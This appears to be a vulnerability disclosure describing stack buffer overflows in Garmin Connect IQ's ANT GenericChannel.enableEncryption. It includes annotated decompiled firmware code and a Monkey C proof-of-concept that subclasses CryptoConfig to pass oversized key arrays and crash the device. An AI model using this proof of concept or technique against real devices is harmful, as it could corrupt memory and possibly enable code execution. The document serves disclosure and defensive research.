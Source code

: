 # Buffer Overflows in `Toybox.Ant.GenericChannel.enableEncryption`
The `GenericChannel` class supports enabling encryption on an ANT channel via the `enableEncryption` method, which expects a `Ant.CryptoConfig` object.

(See: [Garmin - Class: Toybox.Ant.GenericChannel](https://developer.garmin.com/connect-iq/api-docs/Toybox/Ant/GenericChannel.html#enableEncryption-instance_function))

The `Ant.CryptoConfig` object supports:

- `encryptionKey`, an array representing the encryption key
- `userInfoString`, an array representing the user information string

(See: [Garmin - Class: Toybox.Ant.CryptoConfig](https://developer.garmin.com/connect-iq/api-docs/Toybox/Ant/CryptoConfig.html#encryptionKey-var))

When `GenericChannel` copies the `encryptionKey` and `userInfoString` parameters to static buffers, it does not check their sizes. Long `encryptionKey` and `userInfoString` arrays can override information on the stack, and potentially lead to arbitrary code execution.

The `Ant.CryptoConfig` class appears to limit the sizes of those parameters to 16 bytes. However, it is possible to inherit from the class and redefine its attributes after the initialization completed to pass arbitrary-sized arrays.

```c
e_tvm_error native:Toybox.Ant.GenericChannel.enableEncryption(s_tvm_ctx *ctx,uint nb_args)
{
// [...]
char encryption_key [16];
char user_info_string [16]
// [...]
    // Anvil: Pass encryption key array and static buffer to `tvm_ant_copy_array`
    eVar2 = tvm_ant_copy_array(ctx,field_encryptionKey,(byte *)encryption_key,configuration,PTR_s_Failed_to_set_encryption_key_04760588);
// [...]
    // Anvil: Pass user info string array and static buffer to `tvm_ant_copy_array`
    eVar2 = tvm_ant_copy_array(ctx,field_userInfoString,(byte *)(user_info_string + 2),configuration,PTR_s_Failed_to_set_the_encryption_use_04760598);
// [...]
}

e_tvm_error tvm_ant_copy_array(s_tvm_ctx *ctx,undefined4 field_symbol,byte *out_buffer,s_tvm_object *configuration,char *error_msg)
{
// [...]
// Anvil: Get the actual array
eVar1 = tvm_get_field_value-?(ctx,configuration,field_symbol,&field_value);
// [...]
// Anvil: Pass the static buffer and the array
if ((uVar2 == 0) && (uVar2 = tvm_copy_array_to_buffer(ctx,(char *)out_buffer,&field_value,&uStack25), uVar2 != 0)) {
// [...]
}

undefined4 * tvm_copy_array_to_buffer(s_tvm_ctx *ctx,char *out_buffer,s_tvm_object *field,char *param_4)
{
// [...]
    // Anvil: Retrieve the array length
    if ((puVar2 == (undefined4 *)0x0) && (puVar2 = (undefined4 *)tvm_object_get_array_length-?(ctx,field,&array_length), puVar2 == (undefined4 *)0x0)) {
      // Anvil: Retrieve the array data
      eVar1 = tvm_object_get_array_data(ctx,field,array_data);
      puVar2 = (undefined4 *)(uint)eVar1;
      if (puVar2 == (undefined4 *)0x0) {
        pcVar3 = out_buffer + -1;
        index = puVar2;
        while( true ) {
          // Anvil: Loop until we reach the end of the array
          if (array_length <= index) {
            puVar2 = (undefined4 *)FUN_04775ce4(ctx,field);
            return puVar2;
          }
          puVar2 = tvm_object_get_value_of_array_at_index(ctx,field,(uint)index,(undefined4 *)&sStack32);
          if ((puVar2 != (undefined4 *)0x0) || (puVar2 = (undefined4 *)tvm_object_convert_to_int-?(ctx,&sStack32,&local_24), puVar2 != (undefined4 *)0x0)) break;
          pcVar3 = pcVar3 + 1;
          // Anvil: And copy the array value at the current index to the buffer
          *pcVar3 = (char)local_24;
          index = (undefined4 *)((int)index + 1);
        }
      }
    }
// [...]
}
```

The crash can be triggered with the following proof-of-concept, adapted from the [MO2Display sample app by Garmin available on GitHub](https://github.com/BodyFatControl/garmin-connectiq-linux/tree/9bb0dc2a1736af55aa2fab41f00c836661050480/samples/MO2Display):

```java
class MyCryptoConfig extends Ant.CryptoConfig{

    function initialize(options) {
        Ant.CryptoConfig.initialize(options);
        self.encryptionKey = [
            0x41, 0x42, 0x43, 0x44,
            0x41, 0x42, 0x43, 0x44,
            0x41, 0x42, 0x43, 0x44,
            0x41, 0x42, 0x43, 0x44,
            // Crash when longer than 16 bytes
            0x41, 0x42, 0x43, 0x44,
            0x41, 0x42, 0x43, 0x44,
            0x41, 0x42, 0x43, 0x44,
            0x41, 0x42, 0x43, 0x44,
            // 0x41, 0x42, 0x43, 0x44,
            // 0x41, 0x42, 0x43, 0x44,
            // 0x41, 0x42, 0x43, 0x44,
            // 0x41, 0x42, 0x43, 0x44,
            // 0x41, 0x42, 0x43, 0x44,
            // 0x41, 0x42, 0x43, 0x44,
            // 0x41, 0x42, 0x43, 0x44,
            // 0x41, 0x42, 0x43, 0x44,
        ];
        self.userInfoString = [
            0x45, 0x46, 0x47, 0x48,
            0x45, 0x46, 0x47, 0x48,
            0x45, 0x46, 0x47, 0x48,
            0x45, 0x46, 0x47, 0x48,
            // Crash when longer than 16 bytes
            // 0x45, 0x46, 0x47, 0x48,
            // 0x45, 0x46, 0x47, 0x48,
        ];
    }
}


class MO2DisplayApp extends App.AppBase
{
// [...]
    function onStart(state) {
        //Create the sensor object and open it
        mSensor = new MO2Sensor();
        mSensor.open();
		// [...]
		// Anvil: Default sane values
		var ENCRYPTION_ID = 12345;
        var ENCRYPTION_KEY = [
            0x41, 0x42, 0x43, 0x44,
            0x41, 0x42, 0x43, 0x44,
            0x41, 0x42, 0x43, 0x44,
            0x41, 0x42, 0x43, 0x44,
            ];
        var ENCRYPTION_USER_INFO_STRING = [];
        var ENCRYPTION_DECIMATION_RATE = 1;
		// [...]
		var cryptoConfig = new MyCryptoConfig({
            :encryptionId => ENCRYPTION_ID,
            :encryptionKey => ENCRYPTION_KEY,
            :decimationRate => ENCRYPTION_DECIMATION_RATE
        });

        mSensor.enableEncryption(cryptoConfig);
```

The proof-of-concept application can be found here: <https://github.com/anvilsecure/garmin-ciq-app-research/blob/main/poc/GRMN-08.prg>